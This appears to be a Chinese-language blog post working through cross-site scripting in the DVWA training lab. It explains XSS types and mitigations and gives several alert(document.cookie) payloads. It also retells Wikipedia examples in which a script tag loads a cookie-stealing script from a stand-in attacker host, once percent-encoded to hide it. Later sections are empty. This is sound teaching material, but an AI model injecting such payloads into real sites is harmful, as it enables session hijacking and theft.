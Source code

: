 ```yaml
---
layout:     post
title:      DVWA靶机练习之XSS
subtitle:   
date:       2019-12-08
author:     kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - security
    - web
    - XSS
---
```




## XSS是什么

XSS(cross-site-scripting) 即是跨站脚本攻击，是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 HTML 以及用户端脚本语言。 



简洁点来说，XSS 就是利用了网站对用户输入没有过滤完全的漏洞，上传恶意代码到网站页面上，使得其他用户加载页面时执行攻击者的恶意代码，达到窃取用户敏感信息（如 cookie）的目的，根据种类不同，一般又分为 反射型 XSS 攻击，存储型 XSS 攻击，DOM 型 XSS 攻击



### Non-persistent (reflected)



反射型 XSS 攻击并不会将恶意脚本存储在服务端，需要用户在和后端交互时自己输入恶意的脚本，因此这种 XSS 攻击一般存在于钓鱼连接中，攻击者已经构造好一个包含恶意代码的链接，如果用户点击了这个链接，就会被窃取隐私信息，比如下面这个钓鱼链接就是个反射型 XSS 攻击脚本



```
http://bobssite.org/search?q=puppies<script>alert('document.cookie');</script>
```



### Persistent (or stored)



存储型 XSS 攻击是将恶意脚本植入服务器端，这样每一次用户访问一个正常的页面时，恶意的代码都会被自动渲染，如果不能及时发现的话会对网站造成很大的影响，假如在一个访问量很大的页面启用 XSS 攻击访问另外的一个网站，则会造成 Dos 攻击的效果，这种 XSS 一般存在于留言板之类的应用中



### DOM-based



DOM 型的 XSS 攻击不会将代码传到服务器端进行交互，所有的处理都由 JavaScript 完成，因此如果前端 JavaScript 没有对输入进行很好的过滤就会造成这种 XSS 攻击



## Wikipedia demo



这里是维基百科上关于 XSS 攻击的两个 demo ，包含持续性和非持续性两种例子



### Non-persistent



1. 爱丽丝经常访问由鲍勃（Bob）托管的特定网站。 Bob的网站允许 Alice 使用用户名/密码对登录并存储敏感数据，例如账单信息。 当用户登录时，浏览器会保留一个“授权 Cookie”，它看起来像一些垃圾字符，因此两台计算机（客户端和服务器）都具有她已登录的记录。
2. Mallory 注意到 Bob 的网站包含一个反射型 XSS 漏洞：
   1. 当她访问“搜索”页面时，她在搜索框中输入搜索词，然后单击“提交”按钮。 如果未找到任何结果，则该页面将显示她搜索的字词，后跟“未找到”字样，其网址为 http://bobssite.org/search?q=her%20search%20term
   2. 使用正常的搜索查询（例如单词“ puppies”），页面仅显示“找不到小狗”，而网址为“ http://bobssite.org/search?q=puppies”-这是完全正常的行为
   3. 但是，当她提交异常的搜索查询时，例如“ <script type ='application / javascript'> alert（'xss'）; </ script>”，
      1. 出现一个警告框（显示 “ xss” ）
      2. 该页面显示“未找到”，以及带有文本 “ xss” 的错误消息。
      3. 网址是 “ http://bobssite.org/search?q= <script％20type ='application / javascript'> alert（'xss'）; </ script> - 这是可利用的行为
3. Mallory制作了一个利用此漏洞的URL：
   1. 她制作了 URL  http://bobssite.org/search?q=puppies<script%20src=“ http://mallorysevilsite.com/authstealer.js”> </ script>。 她可以选择使用百分比编码来对 ASCII 字符进行编码，例如 http://bobssite.org/search?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22 ％3E％3C％2Fscript％3E，因此人类读者无法立即破译恶意 URL
   2. 她向鲍勃网站的一些毫无戒心的成员发送了一封电子邮件，说：“看看一些可爱的小狗！”
4. 爱丽丝得到了电子邮件。 她喜欢小狗，然后单击链接。 它转到 Bob 的网站进行搜索，未找到任何内容，并显示“未找到小狗”，但在这之间，脚本标签运行（在屏幕上不可见）并加载并运行 Mallory 的程序 authstealer.js（触发 XSS 攻击）， 爱丽丝并不知道。
5. authstealer.js 程序在Alice的浏览器中运行，就像它起源于Bob的网站一样。 它获取 Alice 的 Authorization Cookie 的副本，并将其发送到 Mallory 的服务器，Mallory 在该服务器上检索它。
6. Mallory 现在将 Alice 的授权 Cookie 放在自己的浏览器中，就好像是她自己的一样。 然后，她去了 Bob 的站点，现在以 Alice 的身份登录。
7. 现在她进入了，Mallory 转到网站的 Billing 部分，查找 Alice 的信用卡号并获取一个副本。 然后她去更改密码，以使爱丽丝什至无法登录。
8. 她决定更进一步，并向 Bob 自己发送类似的链接，从而获得 Bob 的网站管理员权限。



**防治措施：**

1. 搜索框对用户输入进行过滤，其中包括正确的编码检查
2. 服务器对错误的请求进行重定向
3. 服务器检测到同时登录就使会话无效
4. 服务器检测到同时在两个 ip 登录就使会话无效
5. 网站只展示银行卡最后几位数字
6. 在更改信息前让用户输入密码确认
7. cookie 中设置 `HttpOnly` 字样防止通过 JavaScript 访问



### Persistent



1. Mallory 在 Bob 的网站上获得了一个帐户
2. Mallory 发现 Bob 的网站包含一个存储型 XSS 漏洞。 如果转到“新闻”部分并发表评论，它将显示他输入的任何内容。 但是，如果注释文本中包含 HTML 标记，则标记将按原样显示，并且所有脚本标记都将运行
3. Mallory 在“新闻”部分阅读文章，并在“评论”部分底部写评论。 她在评论中插入了这段文字：我喜欢这个故事中的幼犬！ 他们是如此可爱！<script src =“ http://mallorysevilsite.com/authstealer.js”>
4. 当爱丽丝（或其他人）用评论加载页面时，马洛里的脚本标签运行并窃取爱丽丝的授权 cookie，然后将其发送到 Mallory 的秘密服务器进行收集
5. Mallory 现在可以劫持 Alice 的会话并假冒 Alice



**防治措施：**

1. 对用户的 HTML 标签进行过滤
2. 利用 token 技术，防止 CSRF 攻击



## DVWA 案例



### 低级



#### XSS(DOM)



低级案例通过 GET 方法将下拉框选中的内容发送给本页面，如果有 `default=` 字样的话就进行接下去的操作，没有对输入进行任何过滤，因此在浏览器地址栏我们可以构造出以下 payload 



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<script>alert(document.cookie);</script>
```



#### XSS(Reflected)



输入什么就返回什么，那我们也可以构造出一个 payload 来弹出 cookies



```
kevin<script>alert(document.cookie);</script>
```



#### XSS(Stored)



这是个留言本应用，经常会有存储型 XSS 漏洞，当存在这种漏洞时，如果有人恶意攻击了这个页面，那么随后访问的用户都会被利用，如果在页面中植入下面这个 payload，则后面访问的用户访问时都会弹出 cookies



```
Name: hacker
Message: jsfuck<script>alert(document.cookie);</script>
```



可以看到，植入代码之后，脚本就存储在了页面中，这是持久性的，只要管理员没有发现，就会一直有人受害

![book.jpg](https://i.loli.net/2019/12/12/GXIDYjpVePnZlBE.jpg)

### 中级



#### XSS(DOM)



中级的案例对 `<script` 标签做了过滤，因此我们可以选择绕过，浏览器对大小写是不敏感的，因此我们可以将 script 大写，像下面这样



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<Script>alert(document.cookie);</Script>
```



然而事实证明，这种方法并没有卵用，不能绕过，看了源码，后端用了 `stripos` 函数过滤，这个函数是不区分大小写的，因此大写对他没用，直接把 `script` 给过滤了，因此我们考虑一下用另外一种标签，开始想到的是图片标签，构造一个不存在的图片



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<img src=233 onload=alert(document.cookie); hidden="true"/>
```



但是也没啥用，因为后面 JavaScript 将内容写进了 `option` 标签里面，而 `option` 里面是不能放图片的，所以此路不通，那就再换一个思路，











#### XSS(Reflected)



#### XSS(Stored)





### 高级



#### XSS(DOM)



#### XSS(Reflected)



#### XSS(Stored)



### 不可能



#### XSS(DOM)



#### XSS(Reflected)



#### XSS(Stored)



## summary



永远不要相信用户的输入，不要被局限，万物皆可 XSS